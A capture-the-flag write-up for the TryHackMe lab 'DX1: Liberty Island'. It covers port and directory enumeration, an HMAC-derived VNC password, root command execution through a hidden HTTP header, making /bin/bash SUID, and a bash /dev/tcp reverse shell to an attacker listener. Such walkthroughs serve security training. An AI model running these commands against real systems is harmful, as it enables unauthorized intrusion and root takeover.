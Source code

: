 **TryHackMe Target:  DX1: Liberty Island**

**Initial Access:**\
nmap -Pn  10.10.215.92  -p- --min-rate=5000 	→ 	open ports are:  80, 5901, 23023

Let’s enumerate these ports further: \
nmap -Pn  10.10.215.92  -p 80,5901,23023 --min-rate=5000 -sC -sV -oN nmap.txt\
Output reveals:\
port 80 is a website\
port 5901 is VNC   \
Port 23023 is a website

Navigating to port 80 and looking around, there’s a link on the bottom called ‘War in Cyberspace’.  Clicking on that takes us to a directory  /badactors.html.  Shows a list that seems like it may be usernames or passwords.  Not much more to do here, so Let’s brute force directories on port 80:

dirsearch -r -u http://10.10.215.92/ -e txt,php,html -f		→ Found directory: 	/robots.txt

Navigate to http://10.10.215.92/robots.txt  	→ 	Page reads: Disallow: /datacubes

Navigate to http://10.10.215.92/datacubes  	→ Automatically redirects to: http://10.10.215.92/datacubes/0000/ 

Seeing the directory /0000/ seemed interesting. Perhaps has more hidden directories with different numbers. First, make a file with a list of numbers 0000-9999.  To create this list run: \
for i in {0000..9999};do echo $i >> nlist;done\
Now that we have the file, we will fuzz this directory with: \
wfuzz -c -w nlist -u http://10.10.215.92/datacubes/FUZZ/  --hh 274\
Output shows:

![image](https://user-images.githubusercontent.com/93153300/197628116-80ec4786-8cf6-405f-baed-4f31387c51da.png)





So we found a few hidden directories, navigating to them one by one, we found http://10.10.215.92/datacubes/0451/		had interesting information.

![image](https://user-images.githubusercontent.com/93153300/197627629-912a147b-4a6c-46ee-8e95-8bd82dd96436.png)



 




Piecing this together, we see this is relate to vnc, we know from our nmap earlier that we have vnc port 5901 open.  We are also told here that the target is using hmac.  So googling hmac online calculator we navigate to the calculator on https://www.freeformatter.com/hmac-generator.html.   The input we need to calculate this is the string, secret key, and Digest algorithm.  

![image](https://user-images.githubusercontent.com/93153300/197627733-a4fcccd5-5d1b-417b-88cc-b197f684638a.png)







These 3 pieces of information was given to us in the message above on http://10.10.215.92/datacubes/0451/.  The message tells us:\
String= the username of the author of the message which he says is found on bad actors.  Looking back to our enumeration on port 80 we ran at the beginning, we found a directory /badactors.html and it looked like a list of usernames, so he is probably referring to that list.  Finally, the message shows the authors initials are JL.  Searching through the username list on /badactors.html, it seems like the list is usernames of first name last name, where the first name is only an initial of his first name.  

![image](https://user-images.githubusercontent.com/93153300/197627787-7e028e2a-73e1-484e-a372-ef24f25e9aaa.png)










 

Based on that, jlebedev seems to be the best fit for the authors username.  \
String= smashthestate\
Secret=  jlebedev\
hmac hashing algorithm= md5

Filling this out, the computed hmac is: 311781a1830c1332a903920a59eb6d7a
 
The message tells us his password is the first 8 letters: 311781a1\
Now we have a username and password, let’s log in to vnc with:\
vncviewer  10.10.215.92:5901   → when it prompts for password enter: 	311781a1   → and we are in as user ajacobson.

![image](https://user-images.githubusercontent.com/93153300/197627944-85fd8bb9-caf4-4526-bb3c-57fb9d390f82.png)






  





Open user.txt and we get the first flag.
___________________________________________________________________
**Privilege Escalation:**\
After some manual enumeration and running linpeas, there wasn’t much found.  Going back to the desktop, there’s a file called badactors-list.  Opening that file we see it loads and then show a list:







![image](https://user-images.githubusercontent.com/93153300/197628205-12266368-ba69-4bde-b63f-a7d07472f5fe.png) 

![image](https://user-images.githubusercontent.com/93153300/197628240-0a83c5c2-677f-4d49-924a-1dc68644f25e.png)

In the first screen, when it’s loading it shows it’s connecting to port 23023, which we saw earlier from nmap that it’s an open port.  So let’s navigate to that page.  To be able to load that page,   we need to put into /etc/hosts  10.10.215.92   UNATCO.   Navigating to that page we get:

![image](https://user-images.githubusercontent.com/93153300/197628453-e25f9bc2-2f07-4500-b822-15bb70ea8626.png)
 




Not much we can do here, so open tcpdump to listen to this file badactors-list and see if anything interesting shows up when we run the file.  The target shell won’t let us use tcpdump, so download the file to our pc and then we will run tcpdump on it.  \
On target open python server in directory where this file is located: python3 -m http.server 8000\
On our pc: wget http://10.10.215.92:8000/badactors-list

Now that we have the file on our pc, make the file an executable: \
chmod +x badactors-list.  \
Next, run tcpdump listener: tcpdump -A -i tun0 port 23023\
Now, run badactors-list:    ./badactors-list\
tcpdump captures some interesting information:

![image](https://user-images.githubusercontent.com/93153300/197628500-f7735841-2353-427e-95a1-944d263ad58e.png)


 




The ‘Clearance-Code’ header is very unusual, and ‘directive=’  seems to run commands.  
Let’s try to use this to run commands:    \
curl http://10.10.215.92:23023 -H "Clearance-Code: 7gFfT74scCgzMqW4EQbu" -d "directive=whoami"   → we get a response: root.    This shows we have remote command execution as root.

Let’s change /bin/bash to be a suid, and then we’ll be able to escalate to root.  We can do this by running command:\
curl http://10.10.215.92:23023 -H "Clearance-Code: 7gFfT74scCgzMqW4EQbu" -d "directive=chmod 4755 /bin/bash"

To be able to run /bin/bash -p, we will run it from our pc.  So on our pc run: pwncat-cs -lp 443 (can do this just as well with netcat -lvnp 443), on target pc run: bash -c 'bash -i >& /dev/tcp/10.2.1.148/443 0>&1'
nc listener got a hit and now has shell running. Finally, run:\
/bin/bash -p

![image](https://user-images.githubusercontent.com/93153300/197628590-63e59f52-873f-4df9-a3b3-b8206f361907.png)







We have shell as root, open root.txt to get the flag.


